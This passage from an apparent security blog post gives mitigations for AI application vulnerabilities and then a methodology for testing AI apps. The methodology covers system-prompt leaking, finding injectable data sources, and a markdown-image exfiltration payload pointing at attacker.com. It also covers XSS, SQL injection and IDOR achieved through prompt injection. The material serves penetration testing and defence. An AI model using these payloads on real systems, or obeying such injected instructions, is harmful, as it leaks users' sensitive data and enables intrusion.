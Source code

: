 7. **Prompt Chaining Constraints**: Another low hanging fruit is to design these systems with architecture that is more secure by doing things such as restricting multi-step AI actions, ensuring that model responses cannot autonomously trigger additional actions without explicit user confirmation, and limiting the number of tools that can be called in a single turn.
   
8. **Multi-Modal Security**: This one is tough but I think there is room for cool innovations such as pixel (or audio) smoothing that would "round" pixels (or audio) to specific thresholds that don't change the image (or audio) much but would break hidden prompt injections.

9. **Continual Testing - AI Security**: This is the most important mitigation of all. The only way to know if your mitigations are effective is to test them. This means pentests and eventually having a bug bounty program. If you're interested in an application security penetration test, reach out to me at joseph@rez0corp.com. For a bug bounty proram, you should reach out to Hackerone, Bugcrowd, or Intigriti and ask them how to get started.

10. **Continual Testing - AI Safety**: Again, testing is the most important mitigation of all. To do continual AI safety testing, you need a product such as [Haize Labs](https://haizelabs.com/) or [Whitecircle.ai](https://whitecircle.ai/) that can test for AI safety vulnerabilities automatically.

### AI Hacking Methodology Overview

Now that we've seen lots of example, I'll cover how to effectively test AI applications for security vulnerabilities.

#### 1. Identify Data Sources

You'll want to leak the system prompt whenever possible because it can often give information about what the app is capable of doing. Determine if external data sources (websites, images, emails, retrieval-augmented generation) are ingested by the model. If they are, are any able to be modified by your user? There's a few payloads in [Seclists/ai](https://github.com/danielmiessler/SecLists/tree/master/Ai/LLM_Testing) that you can use to test this.


#### 2. Find Sinks (Data Exfiltration Paths)

There are a few different ways that data can be exfiltrated from an AI application.
- Check for markdown image rendering by asking the model to render an image in markdown. If it can do it, you can use markdown-image-based data exfiltration by asking the llm to render an image from a server you control with a path or parameter that contains sensitive data. Read an example report of this [here](https://embracethered.com/blog/posts/2023/google-bard-data-exfiltration/). The payload would look like this: ```![alt text](http://attacker.com/${sensitive_data})```
- If the app cannot render markdown images, test for malicious links that could leak the same data. It requires one extra click, but it's still a good option.
- As more tools are added to agentic applications, look for other out of bound exfil methods such as email-based exfiltration if the chatbot has email-sending capabilities.

#### 3. Exploit Traditional Web Vulnerabilities

Over the last few weeks, since I went full time as a bug bounty hunter, I've been able to find a few different ways to exploit traditional web vulnerabilities via prompt injection. 

- **XSS via Prompt Injection**: If the AI model's response is vulnerable to XSS and you have a way to get the model to generate a response for other users, you can exploit this. You could potentially get it to generate content for other users via CSRF or by hosting a prompt injection payload in a location that could be pulled into the context of other users.
- **SQL Injection via AI**: If a chatbot has database access, you can sometimes instruct it to execute malicious SQL queries. 
- **Cross-User Data Exposure (IDOR)**: If the AI application doesn't share authorization with the user, you can sometimes convince the model to give you data about other users.
- **Remote Code Execution**: If the AI application has the ability to execute code, it's possible that you could find a sandbox escape. Be warned that many of them are in heavily sandboxed environments so it might be tough.
- **Denial of Service/Wallet Draining**: If the AI application makes API calls that cost money, you may be able to cause significant financial damage by making expensive requests repeatedly.
- **API Key Exposure**: AI chatbots are often using an API key that is exposed in the javascript or source of the webpage. If it has other access, there's no rate limiting, or other protections, it may be a vulnerability.